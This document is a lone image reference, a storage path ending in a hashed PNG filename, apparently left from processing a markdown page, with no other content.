

​
